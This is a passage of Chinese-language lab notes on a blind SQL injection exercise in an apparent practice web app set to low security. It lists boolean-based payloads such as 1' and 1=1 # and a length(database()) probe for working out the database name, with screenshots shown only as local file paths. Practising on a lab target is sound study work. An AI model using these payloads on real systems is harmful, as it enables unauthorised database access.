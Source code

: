 #### 7.等级设置为low

![image-20250528162606745](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528162606745.png)

### 二、判断注入类型

#### 1.SQL Injection(Blind)界面输入1

![image-20250528192925234](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528192925234.png)

#### 2.得到查询结果，存在用户

![image-20250528193007509](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193007509.png)

#### 3.输入1' and 1=1 #

单引号为了闭合原来 SQL 语句中的第一个单引号，而后面的#为了闭合后面的单引号

![image-20250528193143749](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193143749.png)

#### 4.得到查询结果



![image-20250528193117431](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193117431.png)

#### 5.输入1' and 1=2 #

![image-20250528193231953](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193231953.png)

#### 6.没有查询结果，说明为字符型

![image-20250528193510813](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193510813.png)

### 三、二分法猜出数据库名

#### 1.输入1' and length(database())=1 #

判断数据库的名字是不是1个字

![image-20250528193450779](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193450779.png)

#### 2.没有输出，名字不是一个字

![image-20250528193510813](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193510813.png)

#### 3.输入length(database())=4 #

![image-20250528193546660](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528193546660.png)

#### 4.成功输出，为4个字

